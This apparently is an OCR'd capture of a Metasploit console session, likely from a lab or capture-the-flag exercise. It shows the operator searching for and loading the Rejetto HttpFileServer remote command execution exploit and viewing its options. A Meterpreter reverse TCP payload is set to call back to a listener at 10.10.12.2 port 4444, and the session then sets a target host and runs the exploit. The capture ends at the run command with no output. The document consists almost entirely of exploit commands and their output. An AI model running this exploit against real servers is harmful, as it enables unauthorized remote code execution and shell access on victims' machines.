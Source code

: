 ```

Metasploit tip: You can pivot connections over sessions 
started with the ssh_login modules

msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.12.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.5.24.118
rhosts => 10.5.24.118
msf6 exploit(windows/http/rejetto_hfs_exec) > run

```